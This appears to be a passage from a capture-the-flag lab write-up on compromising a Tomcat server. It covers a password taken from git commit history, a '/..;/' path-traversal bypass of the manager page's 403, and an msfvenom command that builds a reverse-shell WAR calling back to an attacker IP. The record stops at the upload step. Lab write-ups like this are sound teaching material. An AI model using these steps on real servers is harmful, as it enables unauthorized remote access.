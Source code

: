 #  Getting Initial shell as tomcat
## Made account on gitbucket on http://10.10.10.250:8080/
![[Pasted image 20210928100501.png]]
## Logging in gitbucket as newly created user 'clarkey'
![[Pasted image 20210928100649.png]]
## http://10.10.10.250/manager/html giving 403 forbidden
http://10.10.10.250/manager/html giving 403 forbidden. We need to bypass 403 forbidden to access http://10.10.10.250/manager/html.
![[Pasted image 20210928100947.png]]
## http://10.10.10.250/manager/status is asking for password 
http://10.10.10.250/manager/status is asking for password which is found in tomcat-users.xml
![[Pasted image 20210928101336.png]]
## FInding  password in commit history of tomcat-users.xml
Found password in commit history of tomcat-users.xml.
![[Pasted image 20210928101714.png]]
## Using above password to access http://10.10.10.250/manager/status
![[Pasted image 20210928101940.png]]
## [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)  arises when both nginx and tomcat are used 
[exploit] arisis (https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) when both nginx and tomcat are used as it is evident from issue in root/seal_market repository.
![[Pasted image 20210928102322.png]]
## Accessing http://10.10.10.250/manager/html using [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)
http://10.10.10.250/manager/html can be accessed using [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/). First we can access known url that works like http://10.10.10.250/manager/status then use directory traversal on this url to bypass 403 forbidden like http://10.10.10.250/manager/status/..;/html (`/..;/` is used to traverse tomcat resources/directories which includes `;`, not `/../` ) like below screenshot.
![[Pasted image 20210928103529.png]]
## using msfvenom to create `war` reverse shell
Using command `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.98 LPORT=1234 -f war -o sh.war` to get war reverse shell.
![[Pasted image 20210928103728.png]]
## uploading war file `sh.war` using burp suite repeater


